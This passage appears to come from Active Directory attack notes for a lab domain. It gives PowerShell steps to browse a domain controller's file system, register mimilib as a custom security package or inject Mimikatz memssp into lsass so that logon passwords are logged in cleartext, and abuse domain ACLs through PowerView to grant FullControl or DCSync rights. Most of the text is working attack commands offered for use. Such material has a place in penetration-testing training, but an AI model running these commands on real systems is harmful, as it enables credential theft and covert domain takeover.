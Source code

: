 Now, it is possible to navigate through domain controller file system:

```powershell
ls \\cyberlab-dc.cyberlab.cybercorp.local\C$
```

## Custom SSP

Add mililib.dll library to log every account access. Drop the **mimilib.dll** to *system32* and add mimilib to *HKLMPackages*:

```powershell
packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```

Using mimikatz, inject into lsass (Not stable with Server 2016):

```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```

Once the SSP is registered, all users who log on to the DC, and all local services will log their passwords to the **c:\Windows\System32\mimilsa.log** file.

## ACL Right Abuse

With DA privileges, the ACL for the domain root can be modified to provide useful rights like FullControl or the ability to run “DCSync”.

1. Check if the user has replication rights on the domain:
    
    ```powershell
    # PowerView
    Get-ObjectAcl -DistinguishedName "dc=cyberlab,dc=cybercorp,dc=local" -ResolveGUIDs | ?{($_.IdentityReference -match "STUDENT1") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
    ```
    
2. Add FullControl rights to the domain object:
    
    ```powershell
    # PowerView
    Add-ObjectAcl -TargetDistinguishedName "DC=cyberlab,DC=cybercorp,DC=local" -PrincipalSamAccountName "STUDENT1" -Rights All -Verbose
    
    # ActiveDirectory Module
    Set-ADACL -DistinguishedName "DC=cyberlab,DC=cybercorp,DC=local" -Principal "STUDENT1" -Verbose
    ```
    